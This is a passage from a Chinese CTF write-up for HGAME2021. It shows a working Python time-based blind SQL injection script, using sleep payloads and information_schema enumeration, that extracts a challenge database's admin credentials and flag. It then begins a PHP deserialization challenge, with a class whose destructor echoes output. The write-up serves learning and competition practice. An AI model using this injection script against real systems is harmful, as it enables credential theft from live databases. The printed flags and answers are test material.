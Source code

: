 ```
        bot = 32
        while top &gt; bot:
            babyselect = '(database())'#week3sqli
            babyselect = "(select group_concat(table_name) from information_schema.TABLES where table_schema like database())"#u5ers
            babyselect = "(select group_concat(column_name) from information_schema.columns where table_name like 0x7535657273)"#usern@me,p@ssword
            babyselect = "(select `p@ssword` from week3sqli.u5ers)"#sOme7hiNgseCretw4sHidd3n
            babyselect = "(select `usern@me` from week3sqli.u5ers)"#admin
            payload = "^(if((ascii(substr(`{``}`,`{``}`,1))&gt;`{``}`),1,sleep(2)))#".format(babyselect, j, mid(bot, top))
            data = `{`
                "username": "admin\\",
                "password": payload.replace(' ', '/**/')
                #^(if((ascii(1)&gt;55),sleep(3),sleep(3)))#这个确实延时成功了
            `}`
            try:
                start = time.time()
                r = requests.post(url=host, data=data)
                print(data)
                print(time.time()-start)
                if time.time()-start &lt; 1.5:
                    bot = mid(bot, top) + 1
                else:
                    top = mid(bot, top)
            except:
                continue
        name += chr(top)
        print(name)

if __name__ == '__main__':
    sqli()
    #hgame`{`7imeB4se_injeCti0n+hiDe~th3^5ecRets`}`
```

hgame`{`7imeB4se_injeCti0n+hiDe~th3^5ecRets`}`

### <a class="reference-link" name="Arknights"></a>Arknights

考点：PHP反序列化

[![](https://p0.ssl.qhimg.com/t011a55816c00cd9a0b.png)](https://p0.ssl.qhimg.com/t011a55816c00cd9a0b.png)

题目是一个类似于抽卡的网站，描述里面说”r4u用git部署到了自己的服务器上”，那么自然而然Githack把源码hack下来。

[source.zip](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/HGAME2021/%5BHGAME2021%5DArknights.zip)

在`simulator.php`我们可以看到有很多类，其中第146行

```
class Eeeeeeevallllllll`{`
    public $msg="坏坏liki到此一游";

    public function __destruct()
    `{`
        echo $this-&gt;msg;
    `}`
`}`
```
